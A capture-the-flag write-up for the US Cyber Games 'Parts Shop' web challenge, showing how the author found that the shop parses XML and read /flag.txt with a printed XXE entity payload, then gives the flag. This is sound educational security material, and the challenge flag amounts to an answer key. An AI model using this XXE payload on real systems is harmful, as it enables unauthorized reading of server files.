 ```yaml
---
title: US Cyber Games [Season 4] - Parts Shop
date: Mon Jun  3 01:22:40 PM EDT 2024
categories: [Writeup]
tags: [ctf,uscybergames,uscybergames2024,web,xxe]
---
```


## Description

Parts Shop [Web]

We've found an online shop for robot parts. We suspect ARIA is trying to embody itself to take control of the physical world. You need to stop it ASAP! (Note: The flag is located in `/flag.txt`)

[https://uscybercombine-s4-parts-shop.chals.io/](https://uscybercombine-s4-parts-shop.chals.io/)

## Solution

The app allows us to view and add parts:
![Parts Shop](/assets/images/USCyberGames/2024/Parts Shop.png)

Add test item:
![Parts Shop-1](/assets/images/USCyberGames/2024/Parts Shop-1.png)

It seems like image is getting embedded and it can be a link
![Parts Shop-2](/assets/images/USCyberGames/2024/Parts Shop-2.png)

Since we need `/flag.txt` this could probably be LFI with `file://` protocol

We are sending new parts data as XML
![Parts Shop-3](/assets/images/USCyberGames/2024/Parts Shop-3.png)

Looks like we can't utilize `file` protocol:
![Parts Shop-4](/assets/images/USCyberGames/2024/Parts Shop-4.png)

Since XML is being sent we could try XXE payloads to embed the contents of file into item.

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md

Payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [<!ENTITY flag SYSTEM 'file:///flag.txt'>]>
<part>
  <name>&flag;</name>
  <author>test2</author>
  <image>test3</image>
  <description>test4</description>
</part>
```

![Parts Shop-5](/assets/images/USCyberGames/2024/Parts Shop-5.png)

 > Flag: **SIVBGR{fu11y_upgr4d3d}**
 {: .prompt-tip }
